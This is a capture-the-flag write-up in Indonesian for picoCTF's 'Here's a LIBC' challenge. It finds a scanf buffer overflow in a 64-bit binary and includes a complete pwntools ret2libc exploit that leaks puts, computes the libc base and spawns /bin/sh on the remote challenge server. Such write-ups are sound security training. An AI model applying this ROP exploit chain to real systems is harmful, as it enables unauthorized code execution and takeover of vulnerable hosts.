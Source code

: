 # Here's a LIBC 
### Category: Binary Exploitation
### Level : Hard

**Deskripsi:**
>I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 62289

## Analisis
Pertama kita analisis binarynya terlebih dahulu

![Preview](image/1.png)

bisa di lihat bahwa ini binary 64 bit Executable

setelah itu kita coba untuk menganalisis apa sebenarnya yang terjadi pada binary ini

![Preview](image/2.png)

setelah di analisis lebih lanjut di sana terdapat sebuah bug Buffer Overflow
lihat pada variabel local_88 disana terdapat buffer 112 dan fungsi scanf yang tidak membatasi buffer yang di masukan yang mengakibatkan buffer overflow

![Preview](image/3.png)

karena binarynya tidak bisa di exec (gatau kenapa) jadi kita lihat dari servernya saja
dikarenakan chall ini kita sudah tau apa bug nya jadi kita eksekusi saja menggunakan tehnik ret2libc
https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/ret2libc

singkatnya ret2libc seperti ini
leak puts -> leak libc -> spawn bin/sh

berikut kode exploit nya
```
from pwn import *

context.binary = elf = ELF("./here")
context.terminal = ['xfce4-terminal', '-e']
context.log_level = 'error'
libc = ELF("libc.so.6")
if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
        p = gdb.debug([elf.path],'''

            continue
        ''')
else:
    #p = process()
    p = remote('mercury.picoctf.net',62289)

offset = 136
pop_rdi = 0x0000000000400913
ret = 0x000000000040052e

#leak puts
payload = flat({offset:[pop_rdi,elf.got.puts,elf.plt.puts,elf.sym.main]})
p.sendline(payload)
p.recvline()
p.recvline()
a = p.recvline().strip()
leak = u64(a.ljust(8,b'\x00'))
print(f"leak puts = {hex(leak)}")

#leak libc address
libc.address = leak - libc.symbols['puts']
print(f"libc address = {hex(libc.address)}")

#system('/bin/sh')
rop = ROP(libc)
rop.raw(ret)
rop.call('system',[next(libc.search(b'/bin/sh\x00'))])
payload = flat({offset:rop.chain()})
p.sendline(payload)

p.interactive()
```

dan ketika di run akan seperti ini

![Preview](image/4.png)
